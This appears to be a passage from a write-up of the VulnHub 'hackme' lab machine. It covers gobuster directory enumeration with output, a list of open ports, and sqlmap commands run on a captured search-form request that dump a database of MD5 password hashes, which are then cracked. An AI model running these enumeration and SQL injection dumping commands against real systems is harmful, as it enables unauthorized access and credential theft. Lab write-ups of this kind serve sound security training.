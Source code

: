 3\. We find quite a few interesting links from the `gobuster` scan and open the `http://192.168.92.180:80/index.php` page to explore the web application further:  
``` {.python .numberLines}
gobuster -u http://192.168.92.180:80/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e -k -l -s "200,204,301,302,307,401,403" -x "txt,html,php,asp,aspx,jsp"
  http://192.168.92.180:80/config.php (Status: 200) [Size: 0]
  http://192.168.92.180:80/index.php (Status: 200) [Size: 100]
  http://192.168.92.180:80/index.php (Status: 200) [Size: 100]
  http://192.168.92.180:80/login.php (Status: 200) [Size: 1245]
  http://192.168.92.180:80/logout.php (Status: 302)
  http://192.168.92.180:80/register.php (Status: 200) [Size: 1937]
  http://192.168.92.180:80/server-status (Status: 403) [Size: 302]
  http://192.168.92.180:80/uploads (Status: 301)
  http://192.168.92.180:80/welcome.php (Status: 302)

```

4\. We are redirected to the `http://192.168.92.180:80/login.php` link at every page visit so we try some common credentials and SQLi attempts. When these do not help, we decide to use the registration option which takes us to the `http://192.168.92.180:80/register.php` page. We register a username `foobar` with `foobar` password and get logged in to the web application:  

![writeup.enumeration.steps.4.1](Box%20Write-ups/vulnhub.hackme/screenshot01.png)  

![writeup.enumeration.steps.4.2](Box%20Write-ups/vulnhub.hackme/screenshot02.png)  

![writeup.enumeration.steps.4.3](Box%20Write-ups/vulnhub.hackme/screenshot03.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp  |  ssh   |  OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.34 ((Ubuntu))
```

\newpage
## Phase #2: Exploitation
1\. The web application presents an online book catalog with a search box. We run `sqlmap` on this page and find the search function vulnerable to SQLi. We dump contents of `webapphacking` database and find MD5 hashed passwords within `users` table. Most of these passwords are easily cracked but we had to use an online MD5 cracker for the password hash of user `superadmin`:  
``` {.python .numberLines}
cat searchform.txt
  POST /welcome.php HTTP/1.1
  Host: 192.168.92.180
  User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://192.168.92.180/welcome.php
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11
  Cookie: PHPSESSID=a9nbe6ikh8ugo269h3rckltqp1
  DNT: 1
  Connection: close
  Upgrade-Insecure-Requests: 1
  
  search=test
sqlmap -r searchform.txt --dbs --batch
sqlmap -r searchform.txt -D webapphacking --dump-all --batch

```
